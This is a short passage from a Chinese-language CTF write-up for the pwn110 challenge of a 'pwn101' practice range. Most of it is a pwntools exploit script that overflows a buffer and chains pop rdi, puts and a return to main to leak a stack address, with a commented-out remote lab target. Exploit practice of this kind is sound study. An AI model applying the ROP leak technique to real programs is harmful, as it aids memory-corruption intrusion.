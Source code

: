 ![image-20231123113029266](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123113029266.png)



泄露stack地址后返回main函数

payload

```python
#!/usr/bin/env python
from pwn import *


sh = process('./pwn110')
#sh = remote('10.10.130.62',9010)
context.log_level = "debug"

#让没用的东西没有
sh.recvuntil(b"libc")
sh.recvuntil(b"\n")

stack_end_addr = p64(0x004bfa70)
put_addr = p64(0x00411bd0)
pop_rdi = p64(0x000000000040191a)


main_addr = p64(0x00401e61)

payload = b"A" * 0x28
payload += pop_rdi + stack_end_addr + put_addr + main_addr

sh.sendline(payload)

stack_addr = u64(sh.recvline().split(b'\n')[0].ljust(8,b"\x00"))

stack_page = p64(stack_addr & 0xFFFFFFFFFFFFF000)

print(hex(stack_addr),hex(u64(stack_page)))


sh.interactive()
```



泄露地址后又回到main函数

![image-20231123113415920](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123113415920.png)
